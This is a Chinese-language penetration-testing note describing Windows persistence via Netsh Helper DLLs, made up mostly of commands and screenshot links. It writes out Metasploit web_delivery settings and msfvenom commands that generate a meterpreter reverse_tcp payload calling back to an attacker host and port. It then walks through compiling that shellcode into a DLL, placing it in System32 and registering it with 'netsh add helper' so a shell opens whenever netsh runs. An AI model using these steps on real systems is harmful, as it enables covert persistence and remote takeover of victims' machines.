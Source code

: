  #### Netsh Helper DLL
	https://github.com/outflanknl/NetshHelperBeacon
	https://github.com/rtcrowley/Offensive-Netsh-Helper
 #### MSFvenom生成DLL
	生成DLL格式木马
![image](/assets/Pentest_Note/master/img/501.png)

	传至靶机执行命令
	>netsh add helper C:\Windows\Temp\help.dll
![image](/assets/Pentest_Note/master/img/502.png)
 #### MSF+web_delivery
	关闭netsh权限不会掉，调用的powershell
	>use exploit/multi/script/web_delivery
	>set target 2            #PSH
	>set payload windows/x64/meterpreter/reverse_tcp
	>set lhost 192.168.0.107
	>set lport 12345
![image](/assets/Pentest_Note/master/img/503.png)

	Visual Studio新建空白DLL项目，源文件添加现有文件
	https://github.com/rtcrowley/Offensive-Netsh-Helper/blob/master/netshlep.cpp 
	复制生成的代码进文件中，配置管理器新建x64位数后生成解决方案，配置类型选择位动态库复制DLL到靶机执行
![image](/assets/Pentest_Note/master/img/504.png)
![image](/assets/Pentest_Note/master/img/505.png)

	>netsh add helper helper.dll
![image](/assets/Pentest_Note/master/img/506.png)
 #### MSF&Shellcode
	关闭netsh后权限会掉
	https://github.com/outflanknl/NetshHelperBeacon
	MSFvenom生成.c格式
	>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.107 LPORT=12345 -f c -o /var/www/html/1.c
	Visual Studio打开项目
	若系统是64位需设置配置管理器为64位项目，反之32(解决方案右键属性)
![image](/assets/Pentest_Note/master/img/507.png)

	将MSF生成shellcode粘贴进相应位置后生成解决方案。
![image](/assets/Pentest_Note/master/img/508.png)
![image](/assets/Pentest_Note/master/img/509.png)

	会在项目目录x64/Release下生成dll
	复制DLL到靶机system32目录下，执行命令
	>netsh add helper C:\Windows\System32\NetshHelperBeacon.dll
![image](/assets/Pentest_Note/master/img/510.png)

	只要启动netsh就会触发
![image](/assets/Pentest_Note/master/img/511.png)